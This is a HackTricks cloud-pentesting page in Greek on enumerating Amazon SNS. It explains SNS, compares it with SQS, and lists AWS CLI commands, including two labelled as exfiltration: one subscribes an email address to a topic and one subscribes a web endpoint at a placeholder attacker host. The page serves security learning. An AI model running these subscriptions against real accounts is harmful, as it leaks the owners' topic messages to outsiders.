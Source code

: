 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Η Υπηρεσία Απλών Ειδοποιήσεων της Amazon (Amazon SNS) περιγράφεται ως μια **πλήρως διαχειριζόμενη υπηρεσία μηνυμάτων**. Υποστηρίζει τόσο **επικοινωνία εφαρμογής προς εφαρμογή** (A2A) όσο και **επικοινωνία εφαρμογής προς άτομο** (A2P).

Τα κύρια χαρακτηριστικά για την επικοινωνία A2A περιλαμβάνουν **μηχανισμούς δημοσίευσης/εγγραφής (pub/sub)**. Αυτοί οι μηχανισμοί εισάγουν **θέματα**, κρίσιμα για την ενεργοποίηση υψηλής απόδοσης, **βασισμένης σε push, επικοινωνίας πολλών προς πολλούς**. Αυτό το χαρακτηριστικό είναι ιδιαίτερα ευνοϊκό σε σενάρια που περιλαμβάνουν κατανεμημένα συστήματα, μικροϋπηρεσίες και αρχιτεκτονικές serverless που βασίζονται σε γεγονότα. Εκμεταλλευόμενα αυτά τα θέματα, τα συστήματα εκδότη μπορούν να διανέμουν αποτελεσματικά μηνύματα σε ένα **ευρύ φάσμα συστημάτων συνδρομητών**, διευκολύνοντας ένα μοτίβο επικοινωνίας fanout.

### **Διαφορά με SQS**

**SQS** είναι μια **υπηρεσία βασισμένη σε ουρές** που επιτρέπει την επικοινωνία σημείου προς σημείο, διασφαλίζοντας ότι τα μηνύματα επεξεργάζονται από έναν **μοναδικό καταναλωτή**. Προσφέρει **τουλάχιστον μία παράδοση**, υποστηρίζει κανονικές και FIFO ουρές, και επιτρέπει τη διατήρηση μηνυμάτων για επαναλήψεις και καθυστερημένη επεξεργασία.\
Από την άλλη πλευρά, το **SNS** είναι μια **υπηρεσία βασισμένη σε δημοσίευση/εγγραφή**, επιτρέποντας **επικοινωνία ενός προς πολλούς** μέσω της μετάδοσης μηνυμάτων σε **πολλούς συνδρομητές** ταυτόχρονα. Υποστηρίζει **διάφορες διευθύνσεις εγγραφής όπως email, SMS, λειτουργίες Lambda και HTTP/HTTPS**, και παρέχει μηχανισμούς φιλτραρίσματος για στοχευμένη παράδοση μηνυμάτων.\
Ενώ και οι δύο υπηρεσίες επιτρέπουν την αποσύνδεση μεταξύ των στοιχείων σε κατανεμημένα συστήματα, το SQS εστιάζει στην επικοινωνία μέσω ουρών, ενώ το SNS τονίζει τα μοτίβα επικοινωνίας που βασίζονται σε γεγονότα και fan-out.

### **Αριθμητική**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Σημειώστε ότι αν το **θέμα είναι τύπου FIFO**, μόνο οι συνδρομητές που χρησιμοποιούν το πρωτόκολλο **SQS** μπορούν να χρησιμοποιηθούν (HTTP ή HTTPS δεν μπορούν να χρησιμοποιηθούν).

Επίσης, ακόμη και αν το `--topic-arn` περιέχει την περιοχή, βεβαιωθείτε ότι έχετε καθορίσει τη σωστή περιοχή στο **`--region`** ή θα λάβετε ένα σφάλμα που δείχνει ότι δεν έχετε πρόσβαση, αλλά το πρόβλημα είναι η περιοχή.
{% endhint %}

#### Μη Αυθεντική Πρόσβαση

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Κλιμάκωση Δικαιωμάτων

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Μετά την Εκμετάλλευση

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Επιμονή

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Αναφορές

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
